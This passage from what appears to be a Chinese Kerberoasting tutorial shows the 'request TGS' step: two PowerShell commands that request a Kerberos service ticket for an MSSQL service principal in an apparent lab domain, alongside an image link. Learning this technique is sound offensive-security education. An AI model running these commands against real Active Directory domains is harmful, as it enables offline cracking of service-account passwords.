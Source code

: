 [![](assets/1699492330-1f368746dd86d80e74501e67c7af2110.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162600-72c1f7fa-7e10-1.png)

2、请求TGS  
单一票据：

```plain
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/win08-server.hacke.testlab"
```
